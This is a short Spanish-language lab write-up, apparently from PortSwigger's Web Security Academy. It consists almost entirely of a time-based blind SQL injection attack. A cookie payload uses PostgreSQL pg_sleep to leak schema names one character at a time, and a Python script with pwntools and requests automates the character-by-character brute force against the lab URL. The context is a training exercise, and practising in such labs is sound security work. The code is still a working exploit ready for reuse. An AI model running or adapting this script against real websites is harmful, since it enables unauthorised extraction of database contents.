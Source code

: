 ```
Cookie: TrackingId=cHGMMcxehmRwG3jt'||case+when+(substr((select+string_agg(schema_name,', ')+from+information_schema.schemata),1,1)='p')+then+pg_sleep(2)+else+pg_sleep(0)+end--+-+; session=ezlYBe5u09pOXF3zAZ4zeRaLp96CZ2pD  
```

Mediante este `script` en `python` vamos a `iterar` sobre el `payload anterior`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a8c0022048b993981c20d0000b3004b.web-security-academy.net/"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 39):
            for character in characters:
                cookies = {
                    'TrackingId': "C5PhDxyLUgYK5wqP'||case when (substr((select string_agg(schema_name,', ') from information_schema.schemata),%d,1)='%s') then pg_sleep(2) else pg_sleep(0) end-- - " % (position, character),
                    'session': "BMvtH2Wf9tGi7WdeVufBPzLwygoHxxPD"
                }

                p1.status(cookies['TrackingId'][:150])

                time_start = time.time()

                r = requests.get(url, cookies=cookies)

                time_end = time.time()

                if time_end - time_start > 2:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```
